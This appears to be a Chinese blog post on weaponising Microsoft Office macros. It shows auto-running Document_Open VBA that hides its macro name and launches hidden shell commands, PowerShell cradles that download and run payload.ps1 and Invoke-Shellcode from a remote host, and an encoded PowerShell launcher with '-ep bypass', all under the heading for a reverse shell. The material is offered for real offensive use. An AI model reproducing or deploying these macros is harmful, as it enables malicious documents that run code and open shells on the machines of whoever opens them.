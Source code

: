 ```yaml
---
title: "Office 宏的利用"
date: 2019-07-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["windows",'office']
categories: ["漏洞复现"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在 Office 中宏指对文档样式, 字体, 排版, 格式修改等一系列操作的统称, 通过 VBA 来完成.

<!--more-->

## 文件格式

以 Word 举例, 一般分为三种格式 `.doc`, `.docx`, `.docm`. 其中 `.doc` 可保存带有宏的文档, 而 `.docx` 不能保存, 使用`.docm` 保存带宏文档时会在文件图标上添加提示宏的标志. 但对于任意文档, 都会有宏的安全警告.

在实战中, 一般使用 `.doc` 格式.

## 隐藏宏名

在当前文档中创建新宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151239.png)

在 `Project - Microsoft Word 对象 - ThisDocument` 中编辑宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151342.png)

代码如下.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

`Document_Open` 指在文档被打开时调用的函数.

删除刚刚创建的宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151722.png)

完成后如下图.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151830.png)

保存文件, 选择 `.doc` 格式.

## 反弹 Shell

基本的命令执行.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

powershell 执行.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/payload.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Shellcode.ps1')
Invoke-Shellcode -Shellcode $buf
```

base64 编码.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "powershell.exe -nop -w hidden -ep bypass -enc aQBmACgAWwBJAG4AdABQAHQAc......"
    Call Shell(cmd, vbHide)
End Sub
```

其余方式可看 msfvenom 中的 vba, vba-exe 等格式, 在此不再赘述.

注意 `-ep bypass` 设置执行策略.